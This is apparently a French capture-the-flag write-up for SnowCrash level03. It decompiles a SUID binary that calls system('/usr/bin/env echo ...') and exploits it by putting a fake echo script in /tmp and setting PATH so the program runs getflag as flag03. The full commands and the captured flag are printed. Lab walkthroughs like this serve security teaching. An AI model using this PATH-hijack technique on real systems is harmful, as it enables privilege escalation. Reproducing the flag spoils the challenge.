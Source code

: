# Level 03
On a un exécutable **./level03** dans le home.
Que ce passe-t-il si on l'exécute ?
 `level03@SnowCrash:~$ ./level03`
`Exploit me`

Le message est clair, notre premier réflexe va être de décompiler l'exécutable.
Et pour cela, on a un super site internet à notre disposition: https://dogbolt.org
Celui-ci dispose de décompilateurs multiples dont **BinaryNinja**, mon préféré <3

Les décompilateurs proposent beaucoup d'erreurs de syntaxes et de code inutile, mais ils suffisent largement à **comprendre ce que fait le code** et a repérer les **appels fonctions exploitables**.
On va commencer par se concentrer sur le main(), voici ce que ça donne:
![*binaryNinja.png*](./binaryNinja.png)

Le main() fait appel a **geteid()** et **geteuid()**, mais ne s'en sert pas vraiment..
Le seul élément pertinent et potentielement exploitable ici est le **return()** qui contient `system("/usr/bin/env echo Exploit me");`

`echo` est localisé grâce à `/usr/bin/env` qui renvoi à l'environnement, et plus précisement à la variable `PATH`. Il y a surement quelques chose à faire ici.

Modifier l'environnement de manière a **rediriger le programme sur un faux echo** ?
Peut-être, mais comment avoir le flag03 ? Si je fais `getflag`en tant que level03 je n'ai rien, pourquoi le faire avec un "faux" `echo`changerai la donne ?

Et bien si on fait un `ll ./level03`:
`-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 ./level03*`
Donc le fichier appartient à **flag03**.
On voit **"s"** dans les permissions ? On connait r(read), w(write) et x(execute), mais c'est quoi "s" ?
*La permission **"s"** dans les systèmes de fichiers Unix/Linux fait référence aux bits **SUID** (Set User ID) et **SGID** (Set Group ID).*
*Lorsque le bit **SUID** est défini sur un fichier, ce fichier est exécuté avec les **permissions de l'utilisateur propriétaire**, au lieu de celles de l'utilisateur qui l'exécute.*

Impressionant ! Donc quand j'exécute `./level03`, je l'exécute en tant que flag03 !
Tout est clair maintenant, si je fais un "faux" `echo`, je pourrais faire `getflag`dedans et il me reconnaitra en tant que `flag03`.
Place à l'action !

`/tmp/`est le seul dossier ou l'on peut créer des fichiers.
\>`vim /tmp/echo`
`#!/bin/sh`
`/bin/getflag`

\>`chmod +x /tmp/echo`
\>`export PATH="/tmp"`

Que la magie opère !
\>`./level03`

**Flag**: `qi0maab88jeaj46qoumi7maus`



